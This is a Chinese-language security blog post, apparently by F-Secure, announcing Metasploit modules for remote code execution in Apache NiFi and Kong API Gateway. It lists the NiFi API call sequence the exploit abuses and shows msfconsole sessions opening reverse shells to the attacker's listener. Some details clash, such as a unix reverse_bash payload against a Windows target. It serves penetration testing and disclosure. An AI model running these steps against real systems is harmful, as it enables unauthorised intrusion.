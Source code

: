 # Apache NiFi 和 Kong API 网关中用于 RCE 的 Metasploit 模块

> 针对Metasploit框架的两个漏洞利用模块，旨在协助安全顾问在网络安全评估中遇到Kong API Gateway和Apache NiFi时验证漏洞的存在。

在发现Apache NiFi和Kong API Gateway中远程代码执行（RCE）漏洞的利用方法后，我们发现没有现成的工具能够轻松高效地验证存在漏洞的系统。F-Secure抓住机会为Metasploit框架开发了两个漏洞利用模块，旨在帮助安全顾问在进行安全评估时高效地验证这些漏洞。

据我们所知，此前尚未公开发布过关于这些攻击向量的研究。这两个模块已被Metasploit框架接受，并可在Metasploit 6.0.18版本中使用。模块的具体内容可以参考以下链接

- [Apache NiFi Processor RCE exploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/apache_nifi_processor_rce.rb)
- [Kong Gateway Admin API RCE exploit module](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/kong_gateway_admin_api_rce.rb)

这些模块利用应用程序各自的HTTP(S) API，并需要管理员权限。然而，出于以下原因，管理员访问可能不需要身份验证：

- NiFi上的身份验证必须显式启用。默认安装通过HTTP服务，不需要身份验证，这意味着所有连接都具有管理员权限。在这种情况下，可以实现未经身份验证的远程代码执行。

- Kong管理员API通过HTTP和/或HTTPS服务，设计上不需要身份验证。最佳实践是将Kong管理员API仅暴露给本地主机，但是，在0.12.0之前的版本中，这不是默认设置，并且在2020年3月之前，docker-kong的compose文件中也不是默认设置，导致了CVE-2020-11710漏洞。如果管理员API没有绑定到本地主机，那么可以实现未经身份验证的远程代码执行。关于CVE-2020-11710的支持文章可以在这里找到。在撰写本文时（2021年1月9日），Shodan显示有1038个Kong管理员API实例暴露于互联网。

## NiFi漏洞利用模块

Apache NiFi 是一款用于自动化系统之间数据流的工具。它使用Java编写，允许用户通过Web UI或直接使用后端API配置“数据流”。它基于NSA开发的“NiagaraFiles”应用程序，于2014年开源。

可以从nifi.apache.org下载NiFi，该网站提供了可在Windows、Linux和MacOS上运行的源代码和编译后的Java二进制文件。此外，还提供了旧版本以及Docker镜像（可以在Docker Hub上找到）。

## 模块概述

这个漏洞利用模块利用了NiFi中标准处理器集合的一部分——ExecuteProcess处理器。根据设计，它允许执行操作系统命令。可以用来执行代码或操作系统命令的处理器被称为“受限组件”。从受限组件列表中选择ExecuteProcess的原因是：它相对易于使用，不依赖于任何已安装的脚本语言，并且没有标记为“实验性”。

在评估可利用性时，需要注意的是，如果启用了身份验证和授权，那么用于身份验证的账户必须具有以下权限才能使用该模块实现远程命令执行：

- **查看和修改根控制器权限：** 攻击者需要具备查看和修改NiFi根控制器的权限。

- **访问受限组件权限：** 攻击者需要具备“无视限制”访问受限组件的权限。

如果满足上述条件，模块中的`USERNAME`和`PASSWORD`选项可用于指定这些凭证。或者，如果需要更复杂的认证流程（如OpenId Connect），或者已经获取了会话令牌，则可以使用`TOKEN`选项设置JWT形式的会话令牌。目前不支持使用客户端证书进行身份验证。

漏洞利用模块会检查是否需要身份验证，并在需要时进行身份验证以获取访问令牌。然后，它会创建一个`ExecuteProcess`处理器并将其配置为运行操作系统命令。完成后，它将清理并删除该处理器。

所有与NiFi的交互都通过NiFi API进行，NiFi Web界面背后也使用了该API。模块按照以下顺序使用以下API：

- **GET /nifi-api/access/config:** 用于检查目标是否运行NiFi，以及是否需要身份验证。
- **POST /nifi-api/access/token:** 如果需要身份验证，则使用提供的凭证获取访问令牌。
- **GET /nifi-api/process-groups/root:** 获取根流程组的ID。 07a63126-0187-1000-fb61-e4f510a35ab6
- **POST /nifi-api/process-groups/<ROOT-PROCESSOR-GROUP-ID>/processors:** 在根组中创建一个ExecuteProcess处理器。 88dd84e1-0191-1000-0000-000010c1f312
- **PUT /nifi-api/processors/<NEW-PROCESSOR-ID>:** 配置新的ExecuteProcess处理器并运行操作系统命令。
- **PUT /nifi-api/processors/<NEW-PROCESSOR-ID>/run-status:** 在删除之前停止新的ExecuteProcess处理器。
- **DELETE /nifi-api/processors/<NEW-PROCESSOR-ID>/threads:** 如果停止失败，则终止线程。
- **DELETE /nifi-api/processors/<NEW-PROCESSOR-ID>:** 删除处理器

## 示例用法

在这个场景中，目标系统是Windows 10.0.18363 专业版，且未启用身份验证。

``` bash
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set target 1
target => 1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 192.168.194.140
rhost => 192.168.194.140
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 192.168.194.140:8080 - The target appears to be vulnerable.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.140:50008) at 2020-10-03 13:17:58 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions
 ​
Active sessions
===============
​
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 shell cmd/windows Microsoft Windows [Version 10.0.18363.1082] (c) 2019 Microsoft Corporation. A... 192.168.194.131:4444 -> 192.168.194.140:50008 (192.168.194.140)
```

**在以下场景中，目标是Ubuntu Linux Server 20.04.1，并且需要身份验证。** 这可以通过一条提示信息来确认，该信息明确表示需要进行身份验证。在提供身份验证凭证后，成功实现了漏洞利用。

```bash
$ msfconsole -q
msf5 exploit(multi/http/apache_nifi_processor_rce) > use multi/http/apache_nifi_processor_rce
[*] Using configured payload cmd/unix/reverse_bash
msf5 exploit(multi/http/apache_nifi_processor_rce) > set lhost 192.168.194.131
lhost => 192.168.194.131
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf5 exploit(multi/http/apache_nifi_processor_rce) > set ssl true
[!] Changing the SSL option's value may require changing RPORT!
ssl => true
msf5 exploit(multi/http/apache_nifi_processor_rce) > set rport 9443
rport => 9443
msf5 exploit(multi/http/apache_nifi_processor_rce) > check
[*] 127.0.0.1:9443 - The service is running, but could not be validated.
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444
[-] Exploit aborted due to failure: bad-config: Authentication is required. Bearer-Token or Username and Password must be specified
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/apache_nifi_processor_rce) > set username admin
username => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > set password admin
password => admin
msf5 exploit(multi/http/apache_nifi_processor_rce) > run -z
[*] Started reverse TCP handler on 192.168.194.131:4444
[*] Waiting 5 seconds before stopping and deleting
[*] Command shell session 1 opened (192.168.194.131:4444 -> 192.168.194.130:50802) at 2020-10-03 13:18:00 +0100
[*] Session 1 created in the background.
msf5 exploit(multi/http/apache_nifi_processor_rce) > sessions
​
Active sessions
===============
​
Id Name Type Information Connection
-- ---- ---- ----------- ----------
1 shell cmd/unix 192.168.194.131:4444 -> 192.168.194.130:50802 (127.0.0.1)
```

